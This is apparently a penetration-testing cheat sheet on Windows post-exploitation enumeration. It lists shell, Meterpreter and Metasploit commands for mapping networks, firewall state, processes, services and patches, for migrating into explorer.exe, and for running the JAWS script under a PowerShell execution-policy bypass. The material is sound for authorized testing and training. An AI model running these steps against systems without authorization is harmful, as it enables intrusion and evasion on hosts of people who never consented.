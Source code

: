 `shell> route print` -> to get the routing table

`shell> arp -a` -> to discover other hosts on the network

`shell> netstat -ano`

`shell> netsh firewall show state`

`shell> netsh firewall show state` -> it may be deprecated

`shell> netsh advfirewall firewall help`

`shell> netsh advfirewall firewall dump`

`shell> netsh advfirewall show allprofiles`


## Enumerating Process and Services
- Running Process and Services
- Scheduled tasks

`meterpreter> ps`

`meterpreter> pgrep explorer.exe` -> search for specific process

`meterpreter> migrate $process_id` -> migrate to explorer.exe, because it is stable

`shell> net start` 

`shell> wmic service list brief` -> show services

`shell> tasklist /SVC` -> display list of services with its process

`shell> schtasks /query /fo LIST`-> enumerate schedule tasks


## Automating Windows Local Enumeration
`meterpreter> show_mount`

`msf> search win_privs`

`msf> search enum_logged`

`msf> search checkvm`

`msf> search enum_applications`

`msf> search enum_computers`

`msf> search enum_patches`

`msf> search enum_shares`

download the JAWS powershell script and run it to enumerate the system locally!

upload it to Temp directory in the C: drive

`shell> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws-enum.txt`

`meterpreter> download jaws-enum.txt`


